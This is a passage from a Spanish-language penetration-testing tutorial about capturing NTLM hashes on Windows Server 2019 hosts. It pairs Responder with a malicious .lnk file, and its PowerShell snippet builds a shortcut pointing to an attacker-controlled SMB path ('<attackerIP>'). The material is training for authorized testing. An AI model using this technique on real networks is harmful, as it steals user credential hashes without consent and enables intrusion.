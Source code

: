 Nota: En nuestro ejemplo, espera de 2 a 5 minutos para que el "usuario" navegue por el compartido después de iniciar Responder.

---

## Capturing Hashes with a Malicious .lnk File

El uso de SCFs ya no funciona en hosts Server 2019, pero podemos lograr el mismo efecto usando un archivo `.lnk` malicioso. Podemos usar varias herramientas para generar un archivo .lnk malicioso, como [Lnkbomb](https://github.com/dievus/lnkbomb), ya que no es tan sencillo como crear un archivo .scf malicioso. También podemos crear uno usando unas pocas líneas de PowerShell:

### Generating a Malicious .lnk File

```r

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

Prueba esta técnica en el host objetivo para familiarizarte con la metodología y agregar otra táctica a tu arsenal para cuando encuentres entornos donde Server 2019 sea prevalente.